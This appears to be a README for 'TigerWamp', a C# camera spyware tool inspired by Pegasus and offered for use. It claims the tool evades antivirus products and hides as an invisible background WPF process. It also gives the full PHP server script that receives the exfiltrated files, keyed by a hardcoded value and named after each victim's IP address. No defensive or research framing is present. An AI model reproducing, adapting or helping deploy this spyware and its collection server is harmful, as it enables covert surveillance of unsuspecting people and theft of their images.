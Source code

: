 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of background processes.

To use it you need your own webserver with a php file and a directory "uploads/" that says:
"
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK && $_GET["key"] == "acdb9feb36ae9487032179261e5f12ea") {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
"
